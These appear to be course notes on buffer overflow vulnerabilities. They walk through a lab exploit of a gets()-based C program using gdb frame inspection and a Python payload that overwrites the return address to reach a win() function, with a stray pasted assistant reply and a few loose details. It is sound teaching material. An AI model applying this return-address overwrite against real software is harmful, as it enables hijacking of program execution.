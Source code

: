 > [!idea]+ Buffer Overflow Vulnerabilities
>
> A buffer overflow is a security vulnerability that **occurs when a program writes more data to a buffer (array) than it can hold**, causing the excess data to overflow into adjacent memory locations.
> 
> ![[Pasted image 20240319142840.png]]
>
> Why buffer overflows are dangerous:
> - The overflowed data **can corrupt important program information** stored in memory
> - Attackers can intentionally overflow buffers to **overwrite control data like return addresses or function pointers**
> - By carefully crafting their input, **attackers can hijack program execution and run arbitrary code**
>
> **Example:** Consider an ATM program in C that prompts users to enter their name:
>
> ```c
> void getName() {
>     char name[20];
>     printf("Enter your name: ");
>     gets(name);
>     // ...
> }
> ```
>
> The `name` buffer can only hold 20 characters, but `gets()` allows writing an arbitrary length string. An attacker could input a very long name:
>
> ```
> AAAAAAAAAAAAAAAAAAAA\x10\x21\x51\x31...
> ```
>
> The `A`s overflow the buffer, and the `\x10\x21\x51\x31` bytes overwrite the return address. When `getName()` returns, execution jumps to the attacker's code instead of the intended location.
> 
> ![[Pasted image 20240319143354.png]]
>
> **Potential outcomes of buffer overflow attacks**:
> - Crashing the program (benign case)
> - Redirecting execution to an existing function (e.g. `dispenseMoney()`)
> - **Injecting and executing custom shellcode** (e.g. spawning a shell, stealing data) 
>
> **Solutions and mitigations**:
> - Use **runtime bounds checking** to validate array indices and sizes (performance overhead) (Implemented in Python, Rust, Java but not C, C++)
> - Employ secure string handling functions that limit input length
> - Enable compiler protections like stack canaries, ASLR, and DEP
> - Most importantly, write secure code that validates untrusted input 
>
> In summary, buffer overflows allow attackers to corrupt memory and hijack program control flow. Careful programming practices are essential to prevent these dangerous vulnerabilities.

You're right. Let me add a point to clarify which EIP we want to override based on the information from the `info frame` output.

> [!exercise]+ Exercise - Exploiting Stack Overflow to Change Program Flow
>
> **Example Scenario:**
>
> A vulnerable C program has a function `hello()` that uses `gets()` to read user input into a buffer `buf` of size 17 bytes. The program is not supposed to reach the `win()` function, which prints "You win!". The goal is to exploit the stack overflow vulnerability to overwrite the return address and redirect program flow to the `win()` function.
>
> Here's the vulnerable C code:
>
> ```c
> #include <stdio.h>
> #include <stdlib.h>
>
> void win()
> {
>     printf("You win!\n");
> }
>
> void hello()
> {
>     char buf[17];
>     printf("What is your name? ");
>     gets(buf);
>     printf("Hello %s!\n", buf);
> }
>
> int main(int argc, char **argv)
> {
>     hello();
>     return 0;
> }
> ```

> [!exercise]+ Analyzing the Stack Frame
>
> 1. Set a breakpoint just before the `hello()` function ends and run the program with a pattern of 16 "A"s as input.
>
>    ```
>    (gdb) br 12
>    Breakpoint 1 at 0x1217: file flow.c, line 12.
>    (gdb) run < <(python -c 'print("A"*16)')
>    Starting program: /home/a1112407/ws5/flow < <(python3 -c 'print("A"*16)')
>    
>    Breakpoint 1, hello () at flow.c:12
>    12 printf("Hello %s!\n", buf);
>    ```
>
> 2. Use `info frame` to find the location of the saved return address (saved EIP) on the stack. In this case, it's at `0xffffd32c`.
>
>    ```
>    (gdb) info frame
>    Stack level 0, frame at 0xffffd330:
>     eip = 0x565562d7 in hello (flow.c:12); saved eip = 0x56556248
>     called by frame at 0xffffd340
>     source language c.
>     Arglist at 0xffffd328, args: 
>     Locals at 0xffffd328, Previous frame's sp is 0xffffd330
>     Saved registers:
>      ebx at 0xffffd324, ebp at 0xffffd328, eip at 0xffffd32c
>    ```
>
>    From the `info frame` output, we can see that the return address (saved EIP) we want to override is `0x56556248`. We will need to overwrite this with the address of the `win()` function.
>
> 3. Use `x/40x $esp` to examine the stack contents. The series of `0x41414141` represents the 16 "A"s in the `buf` buffer.
>
>    ```
>    (gdb) x/40x $esp
>    0xffffd310:  0x41414141  0x41414141  0x41414141  0x41414141
>    0xffffd320:  0xf7fe4200  0x00000000  0xffffd338  0x56556248
>    0xffffd330:  0xf7fb3000  0xf7fb3000  0x00000000  0xf7dfa811
>    0xffffd340:  0x00000001  0xffffd3d4  0xffffd3dc  0xffffd364
>    ```
>
>    Notice that the saved EIP `0x56556248` can be found here too, confirming that this is the value we want to override.
>
> 4. Determine the address of the `win()` function using `print win`. In this example, it's at `0x565561b9`.
>
>    ```
>    (gdb) print win
>    $2 = {void ()} 0x565561b9 
>    ```
>
>    We will use this address (`0x565561b9`) to overwrite the saved return address (`0x56556248`) and redirect execution to the `win()` function.

> [!exercise]+ Crafting the Exploit Payload
>
> 1. To overwrite the return address and redirect execution to `win()`, the payload needs to:
>    - Fill the `buf` buffer with 16 bytes of data ("A"s).
>    - Pad an additional 12 bytes to reach the saved return address.
>    - Overwrite the saved return address (`0x56556248`) with the address of `win()` (`0x565561b9`).
>
> 2. The Python payload to generate this exploit string is:
>    ```python
>    print("A"*28 + "\xb9\x61\x55\x56")
>    ```
>    - `"A"*28` fills the buffer and padding (16 + 12 bytes).
>    - `"\xb9\x61\x55\x56"` is the little-endian representation of `0x565561b9` (address of `win()`).
>
> **Why It Works:**
>
> - The `buf` buffer can hold 17 bytes, but `gets()` allows writing beyond the buffer size, overflowing the stack.
> - By carefully crafting the input, we can overwrite the saved return address (`0x56556248`) on the stack with the address of the `win()` function (`0x565561b9`).
> - When the `hello()` function returns, instead of returning to the original caller (`0x56556248`), it jumps to the `win()` function (`0x565561b9`), printing "You win!".
>
> This example demonstrates how stack overflow vulnerabilities can be exploited to manipulate program flow by overwriting the saved return address on the stack, allowing arbitrary code execution.


